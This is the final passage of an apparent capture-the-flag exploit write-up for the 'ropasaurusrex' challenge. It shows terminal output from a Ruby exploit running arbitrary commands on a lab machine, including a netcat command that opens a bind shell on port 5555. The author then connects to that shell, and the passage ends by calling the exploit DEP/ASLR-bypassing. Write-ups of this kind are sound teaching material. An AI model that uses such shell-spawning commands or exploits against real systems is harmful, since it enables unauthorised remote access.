 You can, of course, change <tt>cat /etc/passwd</tt> to anything you want (including a netcat listener!)

<pre>
<span class="lnr"> 1 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">&quot;</span><span class="Constant">pwd</span><span class="Statement">&quot;</span>
<span class="lnr"> 2 </span>/home/ron
<span class="lnr"> 3 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">&quot;</span><span class="Constant">whoami</span><span class="Statement">&quot;</span>
<span class="lnr"> 4 </span>ron
<span class="lnr"> 5 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">&quot;</span><span class="Constant">nc -vv -l -p 5555 -e /bin/sh</span><span class="Statement">&quot;</span> &amp;
<span class="lnr"> 6 </span><span class="Statement">[</span><span class="Constant">1</span><span class="Statement">]</span> <span class="Constant">3015</span>
<span class="lnr"> 7 </span>ron@debian-x86 ~ $ nc <span class="Special">-vv</span> localhost <span class="Constant">5555</span>
<span class="lnr"> 8 </span>debian-x86.skullseclabs.org <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> <span class="Constant">5555</span> <span class="PreProc">(</span><span class="Special">?</span><span class="PreProc">)</span> open
<span class="lnr"> 9 </span><span class="Statement">pwd</span>
<span class="lnr">10 </span>/home/ron
<span class="lnr">11 </span>whoami
<span class="lnr">12 </span>ron
</pre>

<h2>Conclusion</h2>
And that's it! We just wrote a reliable, DEP/ASLR-bypassing exploit for ropasaurusrex.

Feel free to comment or contact me if you have any questions!

